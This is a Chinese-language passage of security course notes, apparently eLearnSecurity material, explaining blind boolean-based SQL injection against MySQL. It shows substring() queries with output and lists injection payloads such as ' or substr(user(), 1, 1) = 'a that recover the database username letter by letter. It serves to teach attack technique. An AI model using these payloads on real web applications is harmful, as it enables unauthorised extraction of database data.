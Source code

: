 `substring()` 返回给定参数的子字符串。 它接受三个参数：输入字符串、子字符串的位置及其长度。[参考MySQL文档function_substring](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_substring)。

```
select substring('elearnsecurity', 2, 1);

substring('elearnsecurity', 2, 1)
l
```

函数可以用作其他函数的参数。

```
select substring(user(), 1, 1);

r
```

SQL 允许您在真/假条件下测试函数的输出。

```
select substring(user(), 1, 1) = 'r' # True
1

select substring(user(), 1, 1) = 'a' # False
0
```

结合这些特性，我们可以通过使用有效载荷来迭代用户名的字母，例如：
* `' or substr(user(), 1, 1) = 'a`
* `' or substr(user(), 1, 1) = 'b`

当我们找到第一个字母时，我们可以移动到第二个：

* `' or substr(user(), 2, 1) = 'a`
* `' or substr(user(), 2, 1) = 'b`

直到我们知道整个用户名。

在这里我们可以看到Web应用程序的数据库用户名的第一个字母是“s”。
我们推断这是因为我们看到了图像，并且我们知道图像仅在 TRUE 条件下显示。

